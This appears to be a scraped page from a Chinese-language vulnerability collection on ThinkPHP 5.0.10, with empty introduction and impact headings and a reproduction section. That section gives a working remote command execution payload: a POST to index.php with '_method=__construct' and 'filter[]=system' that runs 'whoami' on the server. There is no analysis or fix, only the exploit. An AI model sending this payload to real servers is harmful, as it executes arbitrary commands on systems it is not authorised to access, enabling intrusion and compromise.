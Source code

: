 # Thinkphp 5.0.10

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

post提交


```
http://url/public/index.php?s=index/index/index


s=whoami&_method=__construct&method&filter[]=system
```